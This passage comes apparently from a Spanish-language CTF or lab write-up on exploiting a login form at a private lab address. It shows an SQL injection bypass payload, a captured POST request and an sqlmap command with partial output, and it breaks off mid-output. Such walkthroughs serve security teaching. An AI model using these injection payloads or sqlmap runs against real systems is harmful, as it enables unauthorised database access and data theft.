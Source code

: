 Vemos que hay un puerto `80` en el que si intentamos iniciar sesion, vemos que por detras funciona un `mysql` ya que revisa la autenticacion de los usuarios y si probamos a meter lo siguiente.

```
User = admin' OR 1=1-- -
Pass = admin' OR 1=1-- -
```

Vemos que nos deja logearnos, por lo que utilizaremos `sqlmap`.

## sqlmap

Antes de nada capturaremos la peticion con `BurpSuit` para iniciar el `sqlmap` mediante ese `request`.

> request.txt

```
POST /db.php HTTP/1.1
Host: 172.25.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://172.25.0.2
Connection: close
Referer: http://172.25.0.2/login.php
Upgrade-Insecure-Requests: 1


username=admin&password=admin
```

Una vez hecho lo anterior ahora si explotaremos la base de datos.

```shell
sqlmap -r request.txt --dbs
```

Info:

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.7#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:03:25 /2024-08-21/

[14:03:25] [INFO] parsing HTTP request from 'request.txt'
[14:03:25] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.25.0.2/error.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
[14:03:28] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:03:28] [INFO] testing if the target URL content is stable
[14:03:28] [WARNING] POST parameter '
username' does not appear to be dynamic
[14:03:28] [WARNING] heuristic (basic) test shows that POST parameter '
```